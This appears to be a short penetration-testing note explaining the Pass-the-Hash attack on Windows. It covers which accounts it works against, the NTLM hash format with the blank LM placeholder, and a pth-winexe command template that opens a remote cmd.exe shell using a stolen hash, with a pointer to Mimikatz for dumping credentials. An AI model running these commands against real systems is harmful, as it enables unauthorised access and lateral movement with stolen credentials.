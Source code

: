 ```yaml
---
title: Pass-The-Hash
date: M02-05-2023
author: i4
---
```

PtH was discovered back in 1997 and allows an attacker to authenticate to a remote target by using a valid combination of username and NTLM/LM hash rather than a clear password.

- This only works for domain accounts and the built-in local administrator account. Since the 2014 [update](https://support.microsoft.com/en-us/topic/microsoft-security-advisory-update-to-improve-credentials-protection-and-management-may-13-2014-93434251-04ac-b7f3-52aa-9f951c14b649) this no longer works for other local admin accounts.

## Requirements
- NTLM/LM hashes
- LM hash is not needed since Windows Vista+ has no use for it anymore
	- Use `aad3b435b51404eeaad3b435b51404ee` for the LM part
- Format: `[User]%aad3b435b51404eeaad3b435b51404ee:[NTLM]`

## pth-winexe
- See [[Mimikatz]] to export credentials from target system
```
pth-winexe -U [USERNAME]%[LM]:[NTLM] //10.0.0.10 cmd.exe
```